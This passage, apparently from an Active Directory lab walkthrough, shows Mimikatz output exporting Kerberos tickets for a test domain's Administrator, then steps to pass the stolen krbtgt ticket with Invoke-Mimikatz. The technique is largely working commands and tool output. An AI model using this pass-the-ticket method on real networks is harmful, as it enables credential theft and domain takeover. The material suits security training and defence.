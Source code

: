              * Username : Administrator
             * Domain   : BOSSMANBEN.LOCAL
             * Password : (null)

            Group 0 - Ticket Granting Service
             [00000000]
               Start/End/MaxRenew: 7/12/2019 4:38:17 PM ; 7/13/2019 2:38:17 AM ; 7/19/2019 4:38:17 PM
               Service Name (02) : LDAP ; WIN-BO2CT95INDP.bossmanben.local ; bossmanben.local ; @ BOSSMANBEN.LOCAL
               Target Name  (02) : LDAP ; WIN-BO2CT95INDP.bossmanben.local ; bossmanben.local ; @ BOSSMANBEN.LOCAL
               Client Name  (01) : Administrator ; @ BOSSMANBEN.LOCAL ( BOSSMANBEN.LOCAL )
               Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
               Session Key       : 0x00000012 - aes256_hmac
                 4050506d21e637246324747b2d8a26a69a195020adc6bb715f19441a80075302
               Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
               * Saved to file [0;4a16d]-0-0-40a50000-Administrator@LDAP-WIN-BO2CT95INDP.bossmanben.local.kirbi !

            Group 1 - Client Ticket ?

            Group 2 - Ticket Granting Ticket
             [00000000]
               Start/End/MaxRenew: 7/12/2019 4:38:17 PM ; 7/13/2019 2:38:17 AM ; 7/19/2019 4:38:17 PM
               Service Name (02) : krbtgt ; BOSSMANBEN.LOCAL ; @ BOSSMANBEN.LOCAL
               Target Name  (02) : krbtgt ; BOSSMANBEN ; @ BOSSMANBEN.LOCAL
               Client Name  (01) : Administrator ; @ BOSSMANBEN.LOCAL ( BOSSMANBEN )
               Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
               Session Key       : 0x00000012 - aes256_hmac
                 0d397fbecc40d64ac4c5852da47f10f9f757b2db4beaef1e8cdd2bb911ab8605
               Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
               * Saved to file [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi !
    
     ...omitted...
     ```
     __NOTE(S)__:
     - A krbtgt ticket for the Domain (BOSSMANBEN.LOCAL) Administrator was exported

#### iii. Pass the ticket using Invoke-Mimikatz
1. View the exported tickets:
   ```ps1
   dir $home\Desktop\tickets
   ```
   ```
   ...omitted...
   -a----       12/07/2019   4:53 PM           1611 [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi
   ...omitted...
   ```
2. Pass the krbtgt ticket:
   ```ps1
   Invoke-Mimikatz -command '"kerberos::ptt [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi"'
   ```
   ```
     .#####.   mimikatz 2.2.0 (x64) #18362 May 30 2019 09:58:36
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

   mimikatz(powershell) # kerberos::ptt [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi

   * File: '[0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi': OK
   ```
3. View the cached tickets using `klist`:
   ```
   Current LogonId is 0:0xd0ebf
   ```